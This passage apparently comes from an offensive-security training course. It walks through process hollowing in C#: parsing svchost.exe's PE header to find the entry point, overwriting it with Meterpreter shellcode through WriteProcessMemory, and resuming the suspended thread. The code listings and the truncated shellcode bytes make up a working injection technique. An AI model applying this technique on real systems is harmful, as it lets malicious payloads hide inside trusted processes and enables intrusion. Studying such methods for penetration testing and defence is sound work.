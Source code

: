 To parse the PE header, we must read the content at offset 0x3C and use that as a second offset when added to 0x28, as previously discussed and illustrated in the figure below.

<figure><img src="https://static.offsec.com/offsec-courses/PEN-300/imgs/pim/97273b8a159a726510a40114ebe8858e-pim_hollow_headerillu.png" alt="Figure 5: PE header parsing illustration"><figcaption><p>Figure 5: PE header parsing illustration</p></figcaption></figure>

To implement this, we convert four bytes at offset 0x3C (_e\_lfanew_ field) to an [unsigned integer](https://docs.microsoft.com/en-us/dotnet/api/system.uint32?view=netframework-4.8). As stated previously, this is the offset from the image base to the PE header structure.

Next, we convert the four bytes at offset e\_lfanew plus 0x28 into an unsigned integer. This value is the offset from the image base to the EntryPoint.

```
uint e_lfanew_offset = BitConverter.ToUInt32(data, 0x3C);

uint opthdr = e_lfanew_offset + 0x28;

uint entrypoint_rva = BitConverter.ToUInt32(data, (int)opthdr);

IntPtr addressOfEntryPoint = (IntPtr)(entrypoint_rva + (UInt64)svchostBase);
```

> Listing 44 - Parsing the PE header to locate the EntryPoint

The offset from the base address of **svchost.exe** to the EntryPoint is also called the relative virtual address (RVA). We must add it to the image base to obtain the full memory address of the EntryPoint. This is done on the last line of Listing 44.

We have obtained the address of the EntryPoint so we can generate our Meterpreter shellcode and use _WriteProcessMemory_ to overwrite the existing code as shown below. We must remember to add a DllImport statement for WriteProcessMemory before using it.

```
[DllImport("kernel32.dll")]
        static extern bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, byte[] lpBuffer, Int32 nSize, out IntPtr lpNumberOfBytesWritten);
...

byte[] buf = new byte[659] {
0xfc,0x48,0x83,0xe4,0xf0,0xe8...

WriteProcessMemory(hProcess, addressOfEntryPoint, buf, buf.Length, out nRead);
```

> Listing 45 - Overwriting the EntryPoint of svchost.exe with shellcode

Now that everything is set up correctly, we'll start the execution of our shellcode. In the previous techniques, we have called _CreateRemoteThread_ to spin up a new thread, but in this case, a thread already exists and is waiting to execute our shellcode.

We can use the Win32 [ResumeThread](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-resumethread) API to let the suspended thread of a remote process continue its execution. _ResumeThread_ is an easy API to call since it only requires the handle of the thread to resume, as shown in its \[function prototype]\(\<https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-resumethread):

```
DWORD ResumeThread(
  HANDLE hThread
);
```
